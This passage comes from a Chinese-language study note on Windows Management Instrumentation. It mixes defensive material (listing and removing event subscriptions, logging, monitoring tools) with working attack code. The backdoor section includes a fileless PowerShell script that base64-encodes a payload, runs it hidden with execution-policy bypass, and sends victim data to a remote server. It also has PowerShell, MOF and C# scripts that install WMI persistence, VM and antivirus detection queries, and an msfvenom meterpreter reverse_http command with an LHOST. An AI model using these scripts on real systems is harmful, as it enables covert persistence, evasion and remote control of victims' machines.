wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding
->
    Consumer                                               CreatorSID                                         DeliverSynchronously  DeliveryQoS  Filter                                     MaintainSecurityContext  SlowDownProviders
    NTEventLogEventConsumer.Name="SCM Event Log Consumer"  {1, 2, 0, 0, 0, 0, 0, 5, 32, 0, 0, 0, 32, 2, 0, 0}                                         FALSE                              __EventFilter.Name="SCM Event Log Filter"  FALSE                    FALSE
    CommandLineEventConsumer.Name="EvilConsumer"           {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 27, 80, 0, 86, 70, 161, 44, 146, 132, 177, 101, 219, 244, 1, 0, 0}  FALSE                              __EventFilter.Name="EvilFilter"            FALSE                    FALSE
    CommandLineEventConsumer.Name="NotepadConsumer"        {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 27, 80, 0, 86, 70, 161, 44, 146, 132, 177, 101, 219, 244, 1, 0, 0}  FALSE                              __EventFilter.Name="NotepadFilter"         FALSE                    FALSE


wmic /NAMESPACE:"\\root\subscription" PATH __eventfilter
->
    CreatorSID                                                                                                EventAccess  EventNamespace  Name                  Query                                   QueryLanguage
    {1, 2, 0, 0, 0, 0, 0, 5, 32, 0, 0, 0, 32, 2, 0, 0}                                                                     root\cimv2      SCM Event Log Filter  select * from MSFT_SCMEventLogEvent                                   WQL
    {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 27, 80, 0, 86, 70, 161, 44, 146, 132, 177, 101, 219, 244, 1, 0, 0}               root\cimv2      EvilFilter            SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'  WQL
    {1, 5, 0, 0, 0, 0, 0, 5, 21, 0, 0, 0, 27, 80, 0, 86, 70, 161, 44, 146, 132, 177, 101, 219, 244, 1, 0, 0}               root\cimv2      NotepadFilter         SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'   WQL

```


### 5. 查看当前WMI Event及移除

```Powershell
#List Event Filters
Get-WMIObject -Namespace root\Subscription -Class __EventFilter
Get-WMIObject -Namespace root\subscription -Class __EventFilter -Filter "Name='WinrmFilter'"
Get-WMIObject -Namespace root\subscription -Class __EventFilter -Filter "Name='WinrmFilter'" | Remove-WmiObject -Verbose

#List Event Consumers
Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
Get-WMIObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "Name='WinrmDeamon'" # 命令行事件消费者
Get-WMIObject -Namespace root\subscription -Class CommandLineEventConsumer -Filter "Name='WinrmDeamon'" | Remove-WmiObject -Verbose

#List Event Bindings
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%winrm%'"
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%winrm%'" | Remove-WmiObject -Verbose

```


### 6. Intrinsic Events 内部事件 

内部事件表示的是创建、修改和删除任何 WMI 类,对象或命名空间的事件。它们也可被用于计时器或 WMI 方法执行的警报。

以下内部事件采用了系统类 (以两个下划线开头) 的形式,并存在于每一个 WMI 命名空间:

    __NamespaceOperationEvent
    __NamespaceModificationEvent
    __NamespaceDeletionEvent
    __NamespaceCreationEvent
    __ClassOperationEvent
    __ClassDeletionEvent
    __ClassModificationEvent
    __ClassCreationEvent
    __InstanceOperationEvent
    __InstanceCreationEvent
    __MethodInvocationEvent
    __InstanceModificationEvent
    __InstanceDeletionEvent
    __TimerEvent

这些事件的作用非常强大,因为它们可以被用于在操作系统中几乎任何可以想见的事件的触发器。

例如,如果触发了一个基于交互式登录的事件则可以形成下面的内部事件查询(由于触发的内部事件有一定的频率,所以必须在 WQL 查询语句的 WITHIN 子句中指定事件轮询间隔。):

    SELECT * FROM __InstanceCreationEvent WITHIN 15 WHERE TargetInstance ISA 'Win32_LogonSession' AND TargetInstance.LogonType = 2

### 7. Extrinsic Events 外部事件

外部事件解决了和内部事件有关的潜在的轮询问题,因为它们在事件发生时立刻被触发。然而美中不足的是在 WMI 中并没有太多的外部事件,不过,所有已经存在的外部事件的作用很强大,性能也很高。下面的外部事件对于攻击者和防御者来说可能是有用的: 

    ROOT\CIMV2:Win32_ComputerShutdownEvent
    ROOT\CIMV2:Win32_IP4RouteTableEvent
    ROOT\CIMV2:Win32_ProcessStartTrace
    ROOT\CIMV2:Win32_ModuleLoadTrace
    ROOT\CIMV2:Win32_ThreadStartTrace
    ROOT\CIMV2:Win32_VolumeChangeEvent
    ROOT\CIMV2: Msft_WmiProvider*
    ROOT\DEFAULT:RegistryKeyChangeEvent
    ROOT\DEFAULT:RegistryValueChangeEvent

以下外部事件查询形式可以用来捕获每一个进程已加载的所有可执行模块(用户模式和内核模式)

    SELECT * FROM Win32_ModuleLoadTrace

## 0x05 WMI 信息收集及事件触发行为

在攻击者的各个阶段的攻击生命周期中,WMI 都是极其强大的工具。系统提供了丰富的 WMI 对象、方法和事件,它们的功能极其强大,可以执行很多东西,从系统侦察、反病毒、虚拟机检测、代码执行、横向运动、隐蔽存储数据到持久性。它甚至可以打造一个纯粹的 WMI 后门且无需写入文件到磁盘。

攻击者使用 WMI 有很多优势: 

    它被默认安装在所有的 Windows 操作系统中,并且可以追溯到 Windows 98 和 NT4.0。
    对于执行代码,它可以隐蔽的运行 PSEXEC(VBS脚本调用WMI来模拟psexec)。
    WMI 永久事件订阅是作为系统权限运行的。
    防御者通常没有意识到 WMI 可以作为一个多用途的攻击向量。
    几乎每一个系统操作都能够触发一个 WMI 事件。
    除了在 WMI 存储库中存储之外不会对磁盘进行任何操作。

### 1. 系统侦察

下面的 WMI 类是在攻击的侦察阶段可以收集数据的子集:

    主机/操作系统信息:Win32_OperatingSystem, Win32_ComputerSystem
    文件/目录列举: CIM_DataFile
    磁盘卷列举: Win32_Volume
    注册表操作: StdRegProv
    运行进程: Win32_Process
    服务列举: Win32_Service
    事件日志: Win32_NtLogEvent
    登录账户: Win32_LoggedOnUser
    共享: Win32_Share
    已安装补丁: Win32_QuickFixEngineering

### 2. 反病毒/虚拟机检测

已安装的 AV 产品通常会将自己注册在 WMI 中的 AntiVirusProductclass 类中的 root\SecurityCenter 或者是 root\SecurityCenter2 命名空间中,具体是哪一个命名空间则取决于操作系统的版本。

一个 WMI 客户端可以通过执行下面的 WQL 查询示例来获取已安装的 AV 产品:

    SELECT * FROM AntiVirusProduct

通用的虚拟机/沙盒检测

恶意软件可以使用 WMI 对通用的虚拟机和沙盒环境进行检测。例如,如果物理内存小于 2 GB 或者是单核 CPU ,那么很可能操作系统是在虚拟机中运行的。

WQL 查询示例如下: 

    SELECT * FROM Win32_ComputerSystem WHERE TotalPhysicalMemory < 2147483648

    SELECT * FROM Win32_ComputerSystem WHERE NumberOfLogicalProcessors < 2

### 3. VMware 虚拟机检测

查找 VMware 字符串是否出现在某些 WMI 对象中并且检查 VMware tools 的守护进程是否正在运行: 

    SELECT * FROM Win32_NetworkAdapter WHERE Manufacturer LIKE "%VMware%"
    SELECT * FROM Win32_BIOS WHERE SerialNumber LIKE "%VMware%"
    SELECT * FROM Win32_Process WHERE Name="vmtoolsd.exe"
    SELECT * FROM Win32_NetworkAdapter WHERE Name LIKE "VMware%"

    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList 'notepad' -Computer localhost -Credential 'corp\admin'

### 4. WMI 事件触发行为

目前在 WMI 中有极其强大的事件处理子系统,因此, WMI 可以被认为是一个你从来不知道的并且已存在的微软的免费主机 IDS 。

考虑到几乎所有的系统操作都可以触发 WMI 事件,所以,WMI 可以实时的捕捉许多攻击行为。

a. 攻击者使用 WMI 作为持久性机制

    影响: __EventFilter 、__EventConsumer 和 __FilterToConsumerBinding 的实例被创建。__InstanceCreationEvent 事件被触发。
        __CLASS - CommandLineEventConsumer ( __SUPERCLASS - __EventConsumer ) 

b. WMI Shell 工具集被用于 C2 的通道

    影响: __Namespace 对象的实例被创建和修改。因此,__NamespaceCreationEvent 和 __NamespaceModificationEvent 事件被触发了。

c. 创建 WMI 类来存储攻击者的数据

    影响: __ClassCreationEvent 事件被触发。

d. 攻击者安装恶意的 WMI 提供程序

    影响: __Provider类的实例被创建,__InstanceCreationEvent事件被触发。

e. 攻击者通过 "开始菜单" 和 "注册表" 进行持续攻击

    影响: Win32_StartupCommand类实例被创建,__InstanceCreationEvent事件被触发。

f. 攻击者通过其他额外的注册表值进行持续攻击

    影响: RegistryKeyChangeEvent和RegistryValueChangeEvent事件被触发。

g. 攻击者安装服务

    影响: Win32_Service 类实例被创建, __InstanceCreationEvent事件被触发。

所有的攻击和上述描述的影响都可以用 WMI 事件查询来表示,你可以注册一个事件订阅来检测__InstanceDeletionEvent事件的__EventFilter,__EventConsumer和__FilterToConsumerBinding对象。

Sysmon 可以检测 WmiEventFilter / WmiEventConsumer / WmiEventFilterToConsumer 等。


WMI、 DCOM 和 WinRM 的事件会被记录为下列事件日志：

    1. Microsoft-Windows-WinRM/Operational
        显示含有来源 IP 地址的失败的 WinRM 连接尝试

    2. Microsoft-Windows-WMI-Activity/Operational
        包含失败的 WMI 查询和可能包含攻击者活动证据的方法调用

    3. Microsoft-WindowsDistributedCOM
        显示含有来源 IP 地址的失败的 DCOM 连接尝试


## 0x06 WMI Backdoor

### powershell 无文件使用WMI技术执行后门

特点

    不在Client和Server留下任何文件
    不改动注册表
    仅使用powershell实现

环境

    Client - Victim : OWA2013 - 10.1.0.213

    SERVER : 10.1.0.100
        Username:administrator
        Password:xx

脚本

```powershell
# Victim running this ps1 ,  put info to my server
#连接10.1.0.100  , my server
$payload=@'
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'administrator'
$Options.Password = 'xx'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
## 连接到远程计算机  or ManagementScope scope = new ManagementScope("\\\\FullComputerName\\root\\cimv2", options);scope.Connect();
$Connection.Path = '\\10.1.0.100\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
## https://docs.microsoft.com/zh-cn/dotnet/api/system.management.managementclass?view=netframework-4.7.2 
# -> ManagementClass(ManagementScope, ManagementPath, ObjectGetOptions)
# 使用指定选项为指定的 WMI 类初始化 ManagementClass 类的一个新实例
# C# public ManagementClass (System.Management.ManagementScope scope, System.Management.ManagementPath path, System.Management.ObjectGetOptions options);
# https://docs.microsoft.com/zh-cn/dotnet/api/system.management.managementclass.-ctor?view=netframework-4.7.2#System_Management_ManagementClass__ctor_System_Management_ManagementScope_System_Management_ManagementPath_System_Management_ObjectGetOptions_
# 
#新建远程类名 Victim_Info , 存储 Victim info 
$EvilClass['__CLASS'] = 'Victim_Info'
$EvilClass.Properties.Add('victim_ip_10_1_0_213', [Management.CimType]::String, $False)
$GetDate = Get-Date # bGet-WmiObject -Namespace ROOT\CIMV2 -Class Win32_ComputerSystem
$EvilClass.Properties['victim_ip_10_1_0_213'].Value = "Run Command Process : $GetDate"
# Run Command or 获取主机配置信息... : 1. $GetProcess = Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Process 2. $GetProcess
$EvilClass.Put() # ManagementClass - put 提交对象所做的更改
'@
#对payload作base64加密
$bytes = [System.Text.Encoding]::Unicode.GetBytes($payload);
$encodedPayload = [System.Convert]::ToBase64String($bytes);

#新建本地类 Victim_EncodeCommand_Class 存储加密后的payload
$StaticClass = New-Object Management.ManagementClass('root\cimv2',$null,$null)
$StaticClass.Name = "Victim_EncodeCommand_Class"    # = StaticClass['__CLASS'] = 'Victim_EncodeCommand_Class'
$StaticClass.put()
$StaticClass.Properties.Add('EncodeCommand',$encodedPayload)
$StaticClass.put()

#读取加密payload
$EncodedPayload=([WmiClass] 'Victim_EncodeCommand_Class').Properties['EncodeCommand'].Value
#PowerShell直接执行命令 or wmi 永久事件订阅作为持久化后门执行
$PowerShellPayload = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -enc $EncodedPayload"
Invoke-WmiMethod  -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
#显示解密指令
$bytes2  = [System.Convert]::FromBase64String($EncodedPayload);
$decoded = [System.Text.Encoding]::Unicode.GetString($bytes2); 
"decoded Payload:"
$decoded

```

使用**WMI永久事件订阅**(permanent event subscriptions)机制来触发特定操作,完成本地持久化。

```powershell
​
#读取加密指令
$EncodedPayload=([WmiClass] 'Win32_Command').Properties['EnCommand'].Value
# or $exePath='C:\Windows\Temp\evil.exe'

# 构造 WMI永久事件订阅(permanent event subscriptions) 
$filterName='EvilFilter'​
$consumerName='EvilConsumer'

# 1. 创建一个 事件过滤器__EventFilter,用于设定触发条件,每隔60s执行一次
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
# or $Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 200 AND TargetInstance.SystemUpTime < 320"
# 事件筛选器在系统启动后的 200 和 320 秒之间被当作一个触发器。在事件被触发时事件消费者会使用 CommandLineEventConsumer 执行已指定好的可执行文件。
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop

# 2. 创建一个 事件消费者 CommandLineEventConsumer ,用于设定执行的操作
$Arg =@{Name=$consumerName;CommandLineTemplate="C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe  -NonInteractive  -enc $EncodedPayload"}
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments $Arg

# 3. 绑定filter和consumer

Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}

```

运行ps1

```csharp

# Client 
PS C:\Client\WMI> . .\1.ps1

Path          : \\.\root\cimv2:Victim_EncodeCommand_Class
RelativePath  : Victim_EncodeCommand_Class
Server        : .
NamespacePath : root\cimv2
ClassName     : Victim_EncodeCommand_Class
IsClass       : True
IsInstance    : False
IsSingleton   : False

Path          : \\OWA2013\ROOT\cimv2:Victim_EncodeCommand_Class
RelativePath  : Victim_EncodeCommand_Class
Server        : OWA2013
NamespacePath : ROOT\cimv2
ClassName     : Victim_EncodeCommand_Class
IsClass       : True
IsInstance    : False
IsSingleton   : False

__GENUS                 : 2
__CLASS                 : __FilterToConsumerBinding
__SUPERCLASS            : __IndicationRelated
__DYNASTY               : __SystemClass
__RELPATH               : __FilterToConsumerBinding.Consumer="CommandLineEventConsumer.Name=\"EvilConsumer\"",Filter="_
                          _EventFilter.Name=\"EvilFilter\""
__PROPERTY_COUNT        : 7
__DERIVATION            : {__IndicationRelated, __SystemClass}
__SERVER                : OWA2013
__NAMESPACE             : ROOT\subscription
__PATH                  : \\OWA2013\ROOT\subscription:__FilterToConsumerBinding.Consumer="CommandLineEventConsumer.Name
                          =\"EvilConsumer\"",Filter="__EventFilter.Name=\"EvilFilter\""
Consumer                : CommandLineEventConsumer.Name="EvilConsumer"
CreatorSID              : {1, 5, 0, 0...}
DeliverSynchronously    : False
DeliveryQoS             :
Filter                  : __EventFilter.Name="EvilFilter"
MaintainSecurityContext : False
SlowDownProviders       : False
PSComputerName          : OWA2013


# server 
PS C:\Server\> ([WMIClass] 'Victim_Info').Properties['victim_ip_10_1_0_213']

    Name       : victim_ip_10_1_0_213
    Value      : Run Command Process : 12/09/2019 15:11:34
    Type       : String
    IsLocal    : True
    IsArray    : False
    Origin     : Victim_Info
    Qualifiers : {CIMTYPE}

```

### MOF 后门

```csharp
#pragma namespace("\\\\.\\root\\subscription")    

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "MyFilter";
    //Query = "Select * From __InstanceModificationEvent "
            //"Where TargetInstance Isa \"Win32_LocalTime\" "
            //"And TargetInstance.Second = 1";
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA \"Win32_Service\" AND TargetInstance.Name = \"winrm\" AND TargetInstance.State = \"Stopped\"";
    QueryLanguage = "WQL";
};    

instance of CommandLineEventConsumer as $Consumer
{
    Name = "MyConsumer";
    CommandLineTemplate = "powershell -Command \"get-date >>C:\\windows\\Temp\\getdate.txt\"";
    ExecutablePath = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
    //ScriptingEngine = "JScript";
    //ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```


## 0x07 WMI 日志

在2012年之前，Windows系统中的WMI Activity事件日志程序主要用于在WMI启用时记录其跟踪和调试信息

但在Windows新发行版本中扩展了该程序的功能，使用Operational选项可以对WMI的操作行为进行记录。


```Powershell
Get-WinEvent -ListProvider "Microsoft-Windows-WMI-Activity" | fl  *  ## (  Format-List -Property *  )

    ProviderName      : Microsoft-Windows-WMI-Activity
    Name              : Microsoft-Windows-WMI-Activity
    Id                : 1418ef04-b0b4-4623-bf7e-d74ab47bbdaa
    MessageFilePath   : C:\Windows\system32\wbem\WinMgmtR.dll
    ResourceFilePath  : C:\Windows\system32\wbem\WinMgmtR.dll
    ParameterFilePath :
    HelpLink          : http://go.microsoft.com/fwlink/events.asp?CoName=Microsoft Corporation&ProdName=Microsoft®
                        Windows® Operating System&ProdVer=10.0.14393.0&FileName=WinMgmtR.dll&FileVer=10.0.14393.0
    DisplayName       : Microsoft-Windows-WMI-Activity
    LogLinks          : {Microsoft-Windows-WMI-Activity/Trace, Microsoft-Windows-WMI-Activity/Operational,
                        Microsoft-Windows-WMI-Activity/Debug}
    Levels            : {win:Error, win:Informational}
    Opcodes           : {}
    Keywords          : {}
    Tasks             : {}
    Events            : {1, 2, 3, 11...}

(Get-WinEvent -ListProvider "Microsoft-Windows-WMI-Activity").loglinks
    LogName                                    IsImported DisplayName
    -------                                    ---------- -----------
    Microsoft-Windows-WMI-Activity/Trace            False
    Microsoft-Windows-WMI-Activity/Operational      False
    Microsoft-Windows-WMI-Activity/Debug            False

(Get-WinEvent -ListProvider "Microsoft-Windows-WMI-Activity").Events | Measure-Object
    Count    : 22   # Provider 生成了22个事件
    Average  :
    Sum      :
    Maximum  :
    Minimum  :
    Property :
# Measure-Object能够支持求和，求平均值，取最大值，取最小值，统计行数，单词数，字符数


```
当在WMI CIM数据库中创建一个持久事件时，系统同时还会创建Id为5861的事件日志条目，记录着过滤器与消费者详细信息。


## 0x08 学习脚本 

### Monitor WMI Persistence

相关

    [WMIMonitor](https://github.com/realparisi/WMI_Monitor/blob/master/WMIMonitor.ps1)

    [fireeye - wmi_vs_wmi_monitor](https://www.fireeye.com/blog/threat-research/2016/08/wmi_vs_wmi_monitor.html)

Application Event log - EventID 8

.INSTRUCTIONS

    1) Execute the script from an Administrative PowerShell console "Import-Module ./WMIMonitor.ps1"
    The functions "New-EventSubscriberMonitor" and "Remove-SubscriberMonitor" will now be loaded into your system's PowerShell instance
    2) Type "New-EventSubscriberMonitor" to invoke the function and start recording WMI process creations and Consumers
    3) Type "Remove-SubscriberMonitor" to remove the WMI subscriber created and discontinue logging the events
    4) In a new PowerShell window, test a process call create function "wmic process call create "notepad.exe"" and check the Application Event Log to ensure the script is logging


    [WMImplant](https://github.com/ChrisTruncer/WMImplant/blob/master/WMImplant.ps1)
    [WMI-Persistence.ps1]()
    [PowerSploit - Persistence](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Persistence/Persistence.psm1)


### WMIPersistence - C#

[mdsecactivebreach - WMIPersist.cs](https://github.com/mdsecactivebreach/WMIPersistence/blob/master/WMIPersist.cs)
[mdsecactivebreach - SharpShooter.py](https://github.com/mdsecactivebreach/SharpShooter)

先使用msfvenom生成shellcode_raw.txt

    ./msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=192.168.1.221 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f raw -o shellcode_raw.txt

本示例执行的是 VBScript,使用SharpShooter生成 VBScript 类型的 payload。

    python SharpShooter.py --stageless --dotnetver 2 --payload vbs --output implantvbs --rawscfile shellcode_raw.txt

1. CSharp 调用 VBScript 脚本payload (没试成功)

2. CSharp 调用 wmi技术执行命令

    [CSharp 中 __EventFilter 类的一些属性](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/--eventfilter)
    [CSharp 中 CommandLineEventConsumer 类的一些属性](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/commandlineeventconsumer)

```csharp

// WMI Event Subscription Peristence Demo
// Author: @domchell

using System;
using System.Text;
using System.Management;

namespace WMIPersistence
{
    class Program
    {
        static void Main(string[] args)
        {
            PersistWMI();
        }

        static void PersistWMI()
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            try
            {
                ManagementScope scope = new ManagementScope(@"\\.\root\subscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceModificationEvent WITHIN 5 " + "WHERE TargetInstance ISA \"Win32_Service\"" + "AND TargetInstance.Name = \"winrm\"" 
                    + "AND TargetInstance.State = \"Stopped\"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"\root\cimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");

                myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
                myEventConsumer["Name"] = "MyCommandline";
                myEventConsumer["CommandLineTemplate"] = "powershell -Command \"get-date >>C:\\windows\\Temp\\getdate.txt\"";
                myEventConsumer["ExecutablePath"] = "C:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe";
                myEventConsumer.Put();

                Console.WriteLine("[*] Event consumer created.");

                myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            } // END CATCH
            Console.ReadKey();
        } // END FUNC
    } // END CLASS
} // END NAMESPACE

```




## 0x08 Conference

    [WMI的攻击、防御和取证技巧白皮书 - Windows Management Instrumentation (WMI) Forensics | Whitepaper | FireEye](https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf) - https://www.fireeye.com/search.html?q=wmi
    [WMI技术有关的其他攻击活动信息](https://files.sans.org/summit/Digital_Forensics_and_Incident_Response_Summit_2015/PDFs/TheresSomethingAboutWMIDevonKerr.pdf)
    [翻译 : WMI 的攻击,防御与取证分析技术之攻击篇](https://www.secpulse.com/archives/39555.html)
    [Powershell攻击指南黑客后渗透之道系列 - 进阶利用](https://www.anquanke.com/post/id/88851)
    [WMI Architecture](https://docs.microsoft.com/zh-cn/windows/win32/wmisdk/wmi-architecture)
    [WMI Shell](http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf)
    [Powershell+WMI事件订阅](https://blog.csdn.net/stisom/article/details/81343808)
    [解析APT29的无文件WMI和PowerShell后门](https://www.anquanke.com/post/id/85851)
    [WMI Backdoor](http://bobao.360.cn/learning/detail/628.html)
    [那些追踪WMI Activity的基本方法](https://www.anquanke.com/post/id/87041)
    [WMI Defense – 三好学生](https://wooyun.x10sec.org/static/drops/tips-8290.html)
    [WSC、JSRAT and WMI Backdoor - 三好学生](https://wooyun.x10sec.org/static/drops/tips-15575.html)
    [WMIC 事件订阅](https://rcoil.me/2019/05/%E3%80%90%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81%E3%80%91WMIC%20%E4%BA%8B%E4%BB%B6%E8%AE%A2%E9%98%85/)

## 0x09 延伸

    Powershell DSC
    [FireEye - WMI仓库解析工具](https://github.com/fireeye/flare-wmi/tree/master/python-cim)
    [围绕PowerShell事件日志记录的攻防博弈战](http://blog.nsfocus.net/attacks-defenses-powershell-event-logging/)
    [Greater Visibility Through PowerShell Logging](https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html)
    [命名管道](https://rcoil.me/2019/11/%E3%80%90%E7%9F%A5%E8%AF%86%E5%9B%9E%E9%A1%BE%E3%80%91%E5%91%BD%E5%90%8D%E7%AE%A1%E9%81%93/)
    [Powershell之MOF后门]()

